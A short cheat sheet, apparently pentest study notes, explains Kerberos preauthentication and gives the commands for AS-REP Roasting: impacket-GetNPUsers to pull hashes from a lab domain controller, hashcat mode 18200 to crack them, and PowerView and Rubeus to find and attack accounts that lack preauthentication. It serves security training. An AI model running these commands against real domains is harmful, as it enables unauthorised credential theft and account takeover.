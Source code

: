 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).
## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus) (Need To be compile  -> Not done yet)

``` powershell
.\Rubeus.exe asreproast /nowrap
```



